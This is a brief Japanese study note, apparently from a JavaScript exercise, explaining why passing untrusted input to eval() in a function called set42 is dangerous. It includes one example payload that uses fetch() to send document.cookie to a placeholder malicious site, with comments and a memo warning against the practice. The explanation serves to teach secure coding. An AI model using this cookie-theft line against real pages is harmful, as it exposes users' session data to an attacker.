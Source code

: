 `set42`に以下の引数を与えた場合、プログラムが終了してしまう
```js
set42("fetch('http://悪意のあるサイト/?'+encodeURI(document.cookie));");
//悪意あるサイトにリクエストを送ってしまう
//cookieに保存された情報を送ってしまうなど、セキュリティに問題がある
```
メモ：eval()は与えられた文字列を評価して実行できてしまうので、特に外部からの入力を受け取るところに使ってはいけない